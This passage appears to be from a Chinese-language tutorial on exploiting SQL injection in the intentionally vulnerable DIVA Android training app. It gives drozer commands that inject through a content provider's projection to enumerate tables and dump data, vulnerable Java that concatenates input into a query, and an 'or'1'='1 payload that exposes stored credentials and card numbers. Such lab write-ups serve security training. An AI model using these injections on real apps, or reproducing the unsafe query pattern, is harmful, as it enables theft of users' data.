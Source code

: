 ```java
        return cursor;
    }
```

###### 注入
使用drozer注入:这里我们使用projection参数注入，当然也可以采用selection注入，不过payload有不同
1. 爆出表名

```bash
run app.provider.query content://jakhar.aseem.diva.provider.notesprovider/notes --projection "* FROM SQLITE_MASTER WHERE type='table';--"
```

> SQLite数据库中有一个内置表,名为SQLITE_MASTER,此表中存储着当前数据库中所有表的相关信息
2. 爆出表中数据

```bash
run app.provider.query content://jakhar.aseem.diva.provider.notesprovider/notes --projection "* FROM notes ;--"
```

##### Activity中注入
就是整个操作数据库的逻辑在Activity中完成，DIVA中的第七关
###### 检测
因为这种在Activity的操作不方便自动检查，只能去看源码:DIVA中SQLInjectionActivity
```java
    public void search(View view) {
        EditText srchtxt = (EditText) findViewById(R.id.ivi1search);
        try {
        //直接拼接输入框中的字符串，没有任何过滤
            Cursor cr = this.mDB.rawQuery("SELECT * FROM sqliuser WHERE user = '" + srchtxt.getText().toString() + "'", null);
            StringBuilder strb = new StringBuilder("");
            if (cr == null || cr.getCount() <= 0) {
                strb.append("User: (" + srchtxt.getText().toString() + ") not found");
            } else {
                cr.moveToFirst();
                do {
                    strb.append("User: (" + cr.getString(0) + ") pass: (" + cr.getString(1) + ") Credit card: (" + cr.getString(2) + ")\n");
                } while (cr.moveToNext());
            }
            Toast.makeText(this, strb.toString(), 0).show();
        } catch (Exception e) {
            Log.d("Diva-sqli", "Error occurred while searching in database: " + e.getMessage());
        }
    }
```

###### 注入
直接输入框爆出所有用户名密码

```bash
'or'1'='1
```
